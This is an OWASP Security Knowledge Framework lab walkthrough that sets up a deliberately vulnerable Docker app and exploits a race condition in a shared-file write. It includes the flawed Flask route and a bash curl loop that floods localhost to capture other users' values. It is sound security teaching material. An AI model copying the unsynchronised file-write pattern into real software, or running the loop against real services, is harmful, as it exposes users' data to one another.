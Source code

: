 # Race Condition File-Write

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:racecondition-file-write
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:racecondition-file-write
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step1

We can download a file from the server by doing a GET request to the server.

![](../../.gitbook/assets/nodejs/RaceCondition-File-Write/1.png)

Let's try:

![](../../.gitbook/assets/nodejs/RaceCondition-File-Write/2.png)

Once we download the file we can see whatever we add to the URL is being written in a file called shared-file.

![](../../.gitbook/assets/nodejs/RaceCondition-File-Write/3.png)

#### Step 2

As the application suggests, there is a Race condition vulnerability in this app, let's try to find it.

If we look at the code we see that the application gets the query parameter, writes to a file called shared-file.txt, then opens the file and send it back as a response.

```python
@app.route("/<string:value>", methods=['GET'])
def home(value):
    # Create a Python file object using open() and the with statement
    with open("shared-file.txt", 'w') as f:
        f.write(value)
        f.closed
        f.closed
    file = open("shared-file.txt", "r")
    response = make_response(send_file("shared-file.txt", attachment_filename="shared-file.txt"))
    response.headers.set("Content-Type", "text/html; charset=utf-8")
    response.headers.set("Content-Disposition", "attachment; filename=shared-file.txt")
    return response
```

#### Step 3

How can we exploit this?

We have a very small window between the writing of the file:

```python
with open("shared-file.txt", 'w') as f:
        f.write(value)
        f.closed
        f.closed
```

and the response:

```python
 file = open("shared-file.txt", "r")
    response = make_response(send_file("shared-file.txt", attachment_filename="shared-file.txt"))
    response.headers.set("Content-Type", "text/html; charset=utf-8")
    response.headers.set("Content-Disposition", "attachment; filename=shared-file.txt")
    return response
```

Maybe if we have multiple users on this application at the same time we might be able to intercept someone else's query.

## Exploitation

In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us:

```sh

#!/bin/bash

while true; do

	curl -i -s -k  -X $'GET' -H $'Host: localhost:5000' $'http://localhost:5000/111' | grep "111"

done

```

and in the meantime we will send a couple requests from Burp:

![](../../.gitbook/assets/nodejs/RaceCondition-File-Write/4.png)

If we look in the logs we will see:

![](../../.gitbook/assets/nodejs/RaceCondition-File-Write/5.png)

## Additional sources

https://wiki.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)
